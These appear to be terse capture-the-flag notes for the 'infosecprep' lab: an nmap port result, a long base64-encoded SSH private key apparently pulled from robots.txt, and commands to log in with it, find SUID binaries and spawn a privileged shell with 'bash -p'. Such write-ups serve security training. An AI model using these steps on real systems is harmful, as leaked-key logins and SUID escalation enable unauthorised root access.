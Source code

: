 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# infosecprep
# 3/2/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


robots.txt
LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS0KYjNCbGJuTnphQzFyWlhrdGRqRUFB
QUFBQkc1dmJtVUFBQUFFYm05dVpRQUFBQUFBQUFBQkFBQUJsd0FBQUFkemMyZ3RjbgpOaEFBQUFB
d0VBQVFBQUFZRUF0SENzU3pIdFVGOEs4dGlPcUVDUVlMcktLckNSc2J2cTZpSUc3UjlnMFdQdjl3
K2drVVdlCkl6QlNjdmdsTEU5ZmxvbHNLZHhmTVFRYk1WR3FTQURuWUJUYXZhaWdRZWt1ZTBiTHNZ
ay9yWjVGaE9VUlpMVHZkbEpXeHoKYklleUM1YTVGMERsOVVZbXpDaGU0M3owRG8waVF3MTc4R0pV
UWFxc2NMbUVhdHFJaVQvMkZrRitBdmVXM2hxUGZicnc5dgpBOVFBSVVBM2xlZHFyOFhFelkvL0xx
MCtzUWcvcFV1MEtQa1kxOGk2dm5maVlIR2t5VzFTZ3J5UGg1eDlCR1RrM2VSWWNOCnc2bURiQWpY
S0tDSEdNK2RubkdOZ3ZBa3FUK2daV3ovTXB5MGVrYXVrNk5QN05Dek9STnJJWEFZRmExcld6YUV0
eXBId1kKa0NFY2ZXSkpsWjcrZmNFRmE1QjdnRXd0L2FLZEZSWFBRd2luRmxpUU1ZTW1hdThQWmJQ
aUJJcnh0SVlYeTNNSGNLQklzSgowSFNLditIYktXOWtwVEw1T29Ba0I4ZkhGMzB1alZPYjZZVHVj
MXNKS1dSSElaWTNxZTA4STJSWGVFeEZGWXU5b0x1ZzBkCnRIWWRKSEZMN2NXaU52NG1SeUo5UmNy
aFZMMVYzQ2F6TlpLS3dyYVJBQUFGZ0g5SlFMMS9TVUM5QUFBQUIzTnphQzF5YzIKRUFBQUdCQUxS
d3JFc3g3VkJmQ3ZMWWpxaEFrR0M2eWlxd2tiRzc2dW9pQnUwZllORmo3L2NQb0pGRm5pTXdVbkw0
SlN4UApYNWFKYkNuY1h6RUVHekZScWtnQTUyQVUycjJvb0VIcExudEd5N0dKUDYyZVJZVGxFV1Mw
NzNaU1ZzYzJ5SHNndVd1UmRBCjVmVkdKc3dvWHVOODlBNk5Ja01OZS9CaVZFR3FySEM1aEdyYWlJ
ay85aFpCZmdMM2x0NGFqMzI2OFBid1BVQUNGQU41WG4KYXEvRnhNMlAveTZ0UHJFSVA2Vkx0Q2o1
R05mSXVyNTM0bUJ4cE1sdFVvSzhqNGVjZlFSazVOM2tXSERjT3BnMndJMXlpZwpoeGpQblo1eGpZ
THdKS2svb0dWcy96S2N0SHBHcnBPalQrelFzemtUYXlGd0dCV3RhMXMyaExjcVI4R0pBaEhIMWlT
WldlCi9uM0JCV3VRZTRCTUxmMmluUlVWejBNSXB4WllrREdESm1ydkQyV3o0Z1NLOGJTR0Y4dHpC
M0NnU0xDZEIwaXIvaDJ5bHYKWktVeStUcUFKQWZIeHhkOUxvMVRtK21FN25OYkNTbGtSeUdXTjZu
dFBDTmtWM2hNUlJXTHZhQzdvTkhiUjJIU1J4UyszRgpvamIrSmtjaWZVWEs0VlM5VmR3bXN6V1Np
c0sya1FBQUFBTUJBQUVBQUFHQkFMQ3l6ZVp0SkFwYXFHd2I2Y2VXUWt5WFhyCmJqWmlsNDdwa05i
VjcwSldtbnhpeFkzMUtqckRLbGRYZ2t6TEpSb0RmWXAxVnUrc0VUVmxXN3RWY0JtNU1abVFPMWlB
cEQKZ1VNemx2RnFpRE5MRktVSmRUajdmcXlPQVhEZ2t2OFFrc05tRXhLb0JBakduTTl1OHJSQXlq
NVBObzF3QVdLcENMeElZMwpCaGRsbmVOYUFYRFYvY0tHRnZXMWFPTWxHQ2VhSjBEeFNBd0c1Snlz
NEtpNmtKNUVrZldvOGVsc1VXRjMwd1FrVzl5aklQClVGNUZxNnVkSlBubUVXQXB2THQ2MkllVHZG
cWcrdFB0R25WUGxlTzNsdm5DQkJJeGY4dkJrOFd0b0pWSmRKdDNoTzhjNGoKa010WHN2TGdSbHZl
MWJaVVpYNU15bUhhbE4vTEExSXNvQzRZa2cvcE1nM3M5Y1lSUmttK0d4aVVVNWJ2OWV6d000Qm1r
bwpRUHZ5VWN5ZTI4endrTzZ0Z1ZNWng0b3NySW9OOVd0RFVVZGJkbUQyVUJaMm4zQ1pNa09WOVhK
eGVqdTUxa0gxZnM4cTM5ClFYZnhkTmhCYjNZcjJSakNGVUxEeGh3RFNJSHpHN2dmSkVEYVdZY09r
TmtJYUhIZ2FWN2t4enlwWWNxTHJzMFM3QzRRQUEKQU1FQWhkbUQ3UXU1dHJ0QkYzbWdmY2RxcFpP
cTYrdFc2aGttUjBoWk5YNVo2Zm5lZFV4Ly9RWTVzd0tBRXZnTkNLSzhTbQppRlhsWWZnSDZLLzVV
blpuZ0Viak1RTVRkT09sa2JyZ3BNWWloK1pneXZLMUxvT1R5TXZWZ1Q1TE1nakpHc2FRNTM5M00y
CnlVRWlTWGVyN3E5ME42VkhZWERKaFVXWDJWM1FNY0NxcHRTQ1MxYlNxdmttTnZoUVhNQWFBUzhB
SncxOXFYV1hpbTE1U3AKV29xZGpvU1dFSnhLZUZUd1VXN1dPaVlDMkZ2NWRzM2NZT1I4Um9yYm1H
bnpkaVpneFpBQUFBd1FEaE5YS21TMG9WTWREeQozZktaZ1R1d3I4TXk1SHlsNWpyYTZvd2ovNXJK
TVVYNnNqWkVpZ1phOTZFamNldlpKeUdURjJ1Vjc3QVEyUnF3bmJiMkdsCmpkTGtjMFl0OXVicVNp
a2Q1ZjhBa1psWkJzQ0lydnVEUVpDb3haQkd1RDJEVVd6T2dLTWxmeHZGQk5RRitMV0ZndGJyU1AK
T2dCNGloZFBDMSs2RmRTalFKNzdmMWJOR0htbjBhbW9pdUpqbFVPT1BMMWNJUHp0MGh6RVJMajJx
djlEVWVsVE9VcmFuTwpjVVdyUGdyelZHVCtRdmtrakdKRlgrcjh0R1dDQU9RUlVBQUFEQkFNMGNS
aERvd09GeDUwSGtFK0hNSUoyalFJZWZ2d3BtCkJuMkZONmt3NEdMWmlWY3FVVDZhWTY4bmpMaWh0
RHBlZVN6b3BTanlLaDEwYk53UlMwREFJTHNjV2c2eGMvUjh5dWVBZUkKUmN3ODV1ZGtoTlZXcGVy
ZzRPc2lGWk1wd0txY01sdDhpNmxWbW9VQmpSdEJENGc1TVlXUkFOTzBOajlWV01UYlc5UkxpUgpr
dW9SaVNoaDZ1Q2pHQ0NIL1dmd0NvZjllbkNlajRIRWo1RVBqOG5aMGNNTnZvQVJxN1ZuQ05HVFBh
bWNYQnJmSXd4Y1ZUCjhuZksyb0RjNkxmckRtalFBQUFBbHZjMk53UUc5elkzQT0KLS0tLS1FTkQg
T1BFTlNTSCBQUklWQVRFIEtFWS0tLS0tCg==


ssh oscp@192.168.54.89 -i id_rsa           
find / -perm -u=s -type f 2>/dev/null 
bash -p